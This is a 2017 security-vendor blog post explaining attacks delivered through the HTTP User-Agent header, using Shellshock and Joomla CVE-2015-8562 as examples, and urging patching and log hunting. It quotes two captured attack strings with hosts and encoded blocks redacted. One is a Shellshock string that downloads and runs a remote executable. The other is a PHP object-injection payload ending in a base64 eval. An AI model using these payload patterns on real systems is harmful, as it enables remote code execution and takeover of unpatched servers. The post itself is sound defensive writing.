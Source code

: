 ```yaml
---
template: "blog/blog-post"
draft: false

# Metadata
title: "User-Agent based attacks are a low-key risk that shouldn't be overlooked"
description: "It is a known fact that while the majority of vulnerabilities discovered or reported are fixed by the vendor and a patch is issued, many systems end up not being patched in a timely manner or even at all, for that matter."

# Breadcrumbs
breadcrumbs:
  - name: TechBlog
    path: /techBlog/
  - name: User-Agent based attacks...

# Fields
date: 2017-03-22
author:
  - Inbar Raz

blog_title: "User-Agent based attacks are a low-key risk that shouldn't be overlooked"
categories: Research
tags:
  - commerce security

thumbnail: user-agent-based-attacks.jpg

canonical_overwrite: https://betanews.com/2017/03/22/user-agent-based-attacks-are-a-low-key-risk-that-shouldnt-be-overlooked/
---
```


_As originally published in [betanews](https://betanews.com/2017/03/22/user-agent-based-attacks-are-a-low-key-risk-that-shouldnt-be-overlooked/)_

![](/assets/images/blog/user-agent-based-attacks.jpg)

Old, unpatched vulnerabilities allow hackers to take over systems using the User-Agent string -- an elementary part of virtually every HTTP request.

It is a known fact that while the majority of vulnerabilities discovered or reported are fixed by the vendor and a patch is issued, many systems end up not being patched in a timely manner or even at all, for that matter. There are many possible reasons for that, the most common being:

- Automatic updates are turned off.
- Update postponed by the user (usually due to an inconvenient timing).
- Unattended or remote servers are not supervised.
- Updates require a reboot which is never performed.

As a result, even though a patch has been created and deployed, there remain many unpatched systems on the Internet.

Hackers track patch releases and quickly reverse engineer the patch, in order to discover what vulnerability has just been fixed. Once they find it, they weaponize it and then proceed to scan the Internet for vulnerable machines. When a vulnerable machine is found, it is automatically compromised and the attacker takes control of it.

Here's a couple of vulnerabilities specific to when a system parses the User-Agent string from a web browser or any other HTTP request.

## The User-Agent string

When a web browser requests a page from a web server, it sends out a string containing information on the platform, operating system and software installed on the requesting computer. The web server can then use this information in order to better customize the page content for that particular browser. The best example would be to send a version of the page that is better laid out for mobile devices.

This string is called the [User-Agent](https://en.wikipedia.org/wiki/User_agent) string. User-Agent strings have many forms, and typically look similar to one of the following examples:

> Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.23 Safari/537.36

> Mozilla/5.0 (iPad; CPU iPhone OS 9_0_2 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12A405

> Mozilla/5.0 (Linux; Android 4.0.4; HTC Desire P Build/IMM76D) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.166 Mobile Safari/535.19

As you can see, it’s relatively easy to tell that the first was generated by a Windows device, the second by an iPad and the third by an HTC mobile phone running Android.

In practice, anyone can put whatever they want in the User-Agent string, and send it to the web server. For example, here’s the User-Agent string for Googlebot:

> Googlebot/2.1 (+http://www.google.com/bot.html)

And one last example, a User-Agent of a Smart TV by Panasonic:

> Opera/9.80 (Linux mips; ) Presto/2.12.407 Version/12.51 MB98/0.0.32.5 (PANASONIC, Mxl661LG32, wireless) VSTVB_MB97 SmartTvA/3.0.0

## Parsing the User-Agent

There are many different web server products, using a variety of architectures and programming languages. And all must, at some point, take the string that was received from the request or the browser and parse it, in order to be able to customize the web page as required.

It is exactly that stage -- the parsing of the User-Agent string -- that gets targeted by hackers. The hackers’ rule of thumb says that when a remote system is processing a user-controlled input -- and the User-Agent string is, as we’ve shown, entirely controlled by the user -- it’s a good place to look for bugs.

Let’s look at two examples of such vulnerabilities, that hackers are trying to exploit on a regular basis: the Shellshock vulnerability, targeting linux systems, and a specific vulnerability targeting the Joomla CMS platform.

## Shellshock

CVE-2014-6271, CVE-2014-6277, CVE-2014-6278, CVE-2014-7169, CVE-2014-7186, CVE-2014-7187

In September 2014, a vulnerability was discovered in <a href="https://en.wikipedia.org/wiki/Bash_(Unix_shell)" target="_blank">bash</a>, a popular shell (command-line interface) in Unix systems. The vulnerability, when exploited, allowed an attacker to take over the affected machine and execute arbitrary commands. This type of attack, named Remote Code Execution (or RCE for short) is the holy grail for attackers, since it gives the attacker a very high degree of control over the affected system.

Within hours of the publication of the existence of the vulnerability, both the black-hat community and the security industry mobilized.

The bad guys -- the black-hat community -- immediately started scanning the Internet for vulnerable systems, subsequently attacking them and taking control of them.

<img class="image-left" src="/assets/images/blog/shellshock.png" alt="shellshock" />

The good guys -- the security industry -- quickly took a deeper look at the affected modules and found a few more vulnerabilities in the same area. Those were collectively named <a href="https://en.wikipedia.org/wiki/Shellshock_(software_bug)" target="_blank">Shellshock</a> and the branding even included a logo

Following the discovery of Shellshock, security professionals have been racing to update all the vulnerable software they could lay their hands on. But not all businesses have their own private security professional, and more important, not all systems are routinely updated. As a result, vulnerable systems could still be found many months after the vulnerability had already been reported and fixed.

Of all the countless implementations that were found to be vulnerable, the one that was probably the easiest to exploit was the processing of the User-Agent string.

Here is an example of a User-Agent string we detected, that tries to trigger the Shellshock vulnerability and use it to download an executable from the Internet, and then run it:

> () { :;}; /bin/bash -c "wget http://[redacted]/wp2 -O /tmp/w3;curl -o /tmp/w3 http://[redacted]/wp2;chmod +x /tmp/w3;sh /tmp/w3;rm -rf /tmp/w3\*"

As it turns out, Shellshock exploitation attempts can still be detected across the board. These are opportunistic attempts, of course, but as the famous security lema says: The defender has to succeed 100 percent of the time, while the attacker only needs to succeed once.

## Joomla PHP object injection via HTTP User-Agent header

CVE-2015-8562

Joomla is a very popular CMS and web application framework written in PHP. It allows for a simple and easy development of a full featured web site, including a complete user system, comments platform, templates, plugins and more. As of September 2015 it is hosted in no less than 2,800,000 websites.

On December of 2015, the vulnerability was disclosed. A problem with parsing the User-Agent data led to an attacker being able to execute arbitrary code on an affected system. A thorough report on the vulnerability can be found in this [blog post by PatrolServer](https://blog.patrolserver.com/2015/12/17/in-depth-analyses-of-the-joomla-0-day-user-agent-exploit/).

Here’s an example of an attack we detected, using a specially-crafted User-Agent string, designed to trigger the vulnerability:

> }\_\_test|O:21:""JDatabaseDriverMysqli"":3:{s:2:""fc"";O:17:""JSimplepieFactory"":0:{}s:21:""\0\0\0disconnectHandlers"";a:1:{i:0;a:2:{i:0;O:9:""SimplePie"":5:{s:8:""sanitize"";O:20:""JDatabaseDriverMysql"":0:{}s:8:""feed_url"";s:1850:""eval(base64_decode('DQoJ[redacted]nApOw=='));JFactory::getConfig();exit"";s:19:""cache_name_function"";s:6:""assert"";s:5:""cache"";b:1;s:11:""cache_class"";O:20:""JDatabaseDriverMysql"":0:{}}i:1;s:4:""init"";}}s:13:""\0\0\0connection"";b:1;}����

The base64_decode() function is used to decode a large encoded block (redacted in this example), which is then used to create a script that, in turn, downloads and installs additional tools to be used by the attacker.

## Conclusion

The volume of User-Agent exploitation attempts that we are seeing is not high, but it’s stable. It proves to show that the illicit business model still works, and there are still vulnerable systems out there, being scanned for, attacked, taken over and then, on top of everything else, used to propagate the attack even further.

It’s an interesting attack vector, and we would like to raise the awareness to such attacks.

The most important thing you can do, of course, is **make sure all security patches are regularly installed**. This is a single-point-of-failure that allows this type of attacks to keep on going.

If you are a security professional, you should be working in **hunting mode** rather than in **fishing mode**. Don’t just wait for your security suits to notify you when they find something. Go look for it yourself. The User-Agent string is very easy to log and inspect, whether manually or using a simple script. It might not give you a real-time alert, but if such an attack has managed to make it through your defenses, at least you’ll be able to find it and mitigate it.
